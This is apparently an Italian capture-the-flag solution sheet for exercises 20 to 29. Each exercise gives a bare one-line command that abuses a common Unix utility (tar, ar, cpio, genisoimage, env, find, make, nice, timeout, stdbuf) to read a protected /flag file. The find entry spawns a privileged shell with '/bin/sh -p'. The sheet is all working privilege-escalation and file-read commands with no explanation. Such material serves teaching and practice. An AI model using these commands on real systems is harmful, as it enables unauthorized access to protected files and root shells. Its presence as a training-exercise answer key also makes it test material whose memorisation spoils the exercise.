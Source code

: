 ## Esercizio 20 tar
```
tar -cf test.tar /flag
cat test.tar
```

## Esercizio 21 ar
```
F=$(mktemp -u) && ar r “$F” /flag && cat “$F”
```

## Esercizio 22 cpio
```
find /flag | cpio -o > flag.cpioio && cat flag.cpioio
```

## Esercizio 23 genisoimage
```
genisoimage -sort /flag
```

## Esercizio 24 env
```
env cat /flag
```

## Esercizio 25 find
```
find . -exec /bin/sh -p\;
#cat /flag
```

## Esercizio 26 make
```
com='cat /flag'
make -s --eval=$'x\n\t-'"$com"
```

## Esercizio 27 nice
```
nice cat /flag
```

## Esercizio 28 timeout
```
timeout 1 cat /flag
```

## Esercizio 29 stdbuf
```
stdbuf -i0 cat /flag
```
